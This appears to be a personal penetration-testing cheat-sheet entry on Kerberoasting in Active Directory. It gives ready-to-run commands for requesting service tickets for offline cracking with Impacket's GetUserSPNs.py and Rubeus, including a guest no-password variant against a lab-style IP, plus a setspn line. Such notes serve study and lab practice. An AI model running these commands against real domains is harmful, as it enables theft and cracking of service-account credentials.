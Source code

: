 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@DC_IP {-dc-ip} DC_IP -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip 10.129.229.114 -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```